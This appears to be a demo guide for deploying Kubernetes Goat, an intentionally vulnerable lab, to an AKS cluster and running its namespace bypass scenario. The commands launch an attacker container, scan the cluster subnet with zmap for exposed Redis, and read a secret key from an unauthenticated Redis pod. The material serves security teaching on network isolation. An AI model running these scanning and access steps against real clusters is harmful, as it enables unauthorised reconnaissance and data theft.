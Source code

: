 # Demo 2 - Use Kubernetes Goat to run through a namespace bypass experiment to illustrate importance of proper tenant isolation with network security policies

**Application used during demo:**

[Kubernetes Goat](https://github.com/madhuakula/kubernetes-goat)

Deploy Kubernetes Goat to AKS:

```sh
git clone https://github.com/madhuakula/kubernetes-goat.git
cd kubernetes-goat
bash setup-kubernetes-goat.sh
```

* If you see ```CrashLoopBackOff``` state for ```internal-proxy-deployment```, you will need to increase memory limits to at least ```100Mi```, see this GitHub Issue: [pod(system-monitor-deployment) CrashLoopBackOff](https://github.com/madhuakula/kubernetes-goat/issues/66)

```kubectl edit deploy internal-proxy-deployment```

* If you see ```health-check-deployment``` being stuck in ```ContainerCreating``` state with error message ```"hostPath type check failed: /var/run/docker.sock is not a file"```, you will need to remove ```type: File``` on line ```33``` of the ```deployment.yaml``` file in ```/scenarios/health-check```. This happens due to the fact that support for Dockershim has been removed in newer versions of Kubernetes and AKS. See this GitHub Issue: [Health Check Deployment Pod not running](https://github.com/madhuakula/kubernetes-goat/issues/23)

```kubectl edit deploy health-check-deployment```

**Commands used during demo:**

See namespace bypass scenario in official documentation: [Kubernetes Goat scenarios](https://madhuakula.com/kubernetes-goat/docs/scenarios)

- Run container that we will be accessing namespaced resource from: ```kubectl run hacker-container --image=madhuakula/hacker-container```
- Log into created container and start command shell: ```kubectl exec hacker-container -it -- sh```
- Get information about AKS  cluster vNet and subnets: ```az aks show --resource-group aks-sp-demo --name chamber-of-secrets | grep vnetSubnetId```
- Get IP range for AKS cluster subnet (in this use case the default subnet): ```az network vnet subnet show -g aks-sp-demo -n default --vnet-name aks-sp-demo-vnet | grep addressPrefix```
- Scan retrieved IP range with zmap (which is more lightweight and faster network scan tool than nmap) for any exposed apps on port 6379 which is default Redis port - save scan result to a txt-file: ```zmap -p 6379 10.240.0.0/16 -o scanresults.txt```
- Print output of txt-file in command shell: ```cat scanresults.txt```
- Connect to exposed Redis Pod on the default port (6379) with redis-cli: ```redis-cli -h 10.240.0.98```
- Run some Redis commands:
    * ```ping```
    * ```keys *```
    * Retrieve flag: ```get SECRETSTUFF```
